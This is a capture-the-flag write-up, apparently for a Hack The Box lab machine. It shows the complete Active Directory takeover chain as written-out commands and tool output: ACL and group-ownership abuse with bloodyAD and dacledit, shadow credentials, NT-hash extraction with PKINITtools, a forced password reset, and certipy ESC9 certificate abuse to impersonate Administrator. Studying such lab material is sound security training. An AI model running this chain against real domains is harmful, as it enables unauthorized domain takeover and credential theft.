








# User flag


Initial nmap scan reveals that this is an Active Directory scenario. Distinguishable by certain ports and services.

Since I have initial credentials for judith.mader, I will try to enumerate the domain with bloodhound.



Now I can insert the data into bloodhound and begin the enumeration.




With the information I've gathered, I can devise a plan for taking over the domain.

1. Making judith.mader the owner of the Management group.
2. Leveraging the GenericWrite permission of the mentioned group against the svc account to generate shadow credentials.
3. Using the svc account to reset the password of ca_operator.
4. Using the ca_operator account to abuse certificates.

```
bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 set owner Management judith.mader - makes Judith the owner of the Management group.

impacket-dacledit certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41 -principal judith.mader -target Management -action write -rights WriteMembers - grants Judith permission to add users into the Management group.

bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add groupMember Management judith.mader - adds Judith to the Management group.

bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add shadowCredentials management_svc - adds shadow credentials to the management_svc account.
```


I'll grab the PKINIttools repo now as it'll be very useful for further escalation. I'll try to get a TGT as it was mentioned above.



I have the .ccache file now, but what interests me more is the AS-REP key. I'll be able to get the hash of management_svc with it.

```
sudo ntpdate 10.10.11.41 && python PKINITtools/getnthash.py -key 'f4a491c17a0c030ad9c4aa30d3b34a2afc21fa635a427eb1525d7f604f530590' -dc-ip 10.10.11.41 certified.htb/management_svc

Note: I used the ntpdate command here because kerberos has been throwing clock skew errors at me. Joining it together with my intended command solved the issue, but it required several tries.
```


With this hash in hand, I can remote into the machine and collect the user flag.

# Root flag

```
EXPORT KRB5CCNAME=path/to/.ccache/file
sudo ntpdate 10.10.11.41 && bloodyAD --host DC01.certified.htb -d certified.htb --dc-ip 10.10.11.41 -k set password ca_operator password123 - Changes the password of ca_operator to password 123. In order to use the -k flag, the .ccache file must be set as the $KRB5CCNAME environmental variable.
```
I am going to use a tool called certipy-ad, in order to search for potentially dangerous certificates I could exploit.
```
certipy-ad find -vulnerable -stdout -dc-ip 10.10.11.41 -target-ip 10.10.11.41 -u ca_operator@certified.htb -p password123
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```
The lack of security extensions here will allow me to make use of the 'CertifiedAuthentication' template to get the Administrator's hash!

```
certipy-ad account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator - Sets the ca_operator User Principal Name to Administrator. Since AD CS relies on the UPN when issuing certificates, any certificate requested for ca_operator will now be issued as Administrator.

certipy-ad req -username ca_operator@certified.htb -p password123 -ca certified-DC01-CA -template CertifiedAuthentication -debug - Requests a certificate for ca_operator, but since its UPN is now Administrator, the issued cert will belong to Administrator.
```


I will use the extracted .pfx certificate to authenticate via PKINIT and retrieve the NTLM hash for Administrator.



Success! Now I will remote into the pc as admin and get both flags.



Rooted!
